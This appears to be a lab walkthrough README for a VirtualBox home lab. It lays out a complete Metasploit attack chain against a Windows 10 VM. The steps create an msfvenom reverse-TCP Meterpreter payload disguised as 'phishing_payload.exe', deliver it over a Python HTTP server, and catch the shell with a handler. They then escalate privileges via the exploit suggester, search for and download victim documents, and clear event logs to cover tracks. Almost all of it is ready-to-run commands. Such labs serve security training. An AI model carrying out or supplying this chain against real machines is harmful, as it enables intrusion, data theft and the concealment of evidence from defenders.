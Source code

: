 ## Step 1: Lab Network Setup

- VirtualBox: Both Parrot OS and Windows VM set to `Host-only Adapter`
- Parrot IP: 192.168.XX.X
- Windows IP: 192.168.XX.X
- Ping test: Successful (Parrot can reach Windows)


### Network Configuration (VirtualBox)
1. Go to **File > Host Network Manager**, create `vboxnet0`.
2. Assign the following:
   - parrot os: `192.168.XX.X`
   - Windows 10: `192.168.XX.X`
3. Ensure both VMs are using **Host-Only Adapter** mode.

### Test Connectivity:

ping 192.168.XX.X   # From parrotOS

##
### Step 2: Payload Creation

Generate Meterpreter Payload:
mkdir payloads && cd payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.XX.X LPORT=4444 -f exe -o phishing_payload.exe

## Step 3: HTTP Server for Delivery
Host Payload with Python:
python3 -m http.server 8080

On Windows Target:
Download the payload via browser:
http://192.168.XX.X:8080/phishing_payload.exe

## Step 4: Metasploit Handler
Start Metasploit:
msfconsole

Set Up Listener:
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.XX.X
set LPORT 4444
run -j


## Step 5: Initial Access & Meterpreter Shell
Once payload is executed from Windows:
sessions
sessions -i [ID]
getuid
sysinfo



## Step 6: Privilege Escalation
Migrate to Stable Process:
ps
migrate [PID]

Use Exploit Suggester:
background
use post/multi/recon/local_exploit_suggester
set SESSION [ID]
run

After successful privesc, confirm with:
getuid

## Step 7: File Search & Exfiltration
search -f *.docx

Download Files:
download C:\\Users\\Victim\\Documents\\secret.docx


## Step 8: Covering Tracks
Clear Windows Event Logs:
clearev

Delete Payload:
rm C:\\Users\\Victim\\Downloads\\phishing_payload.exe

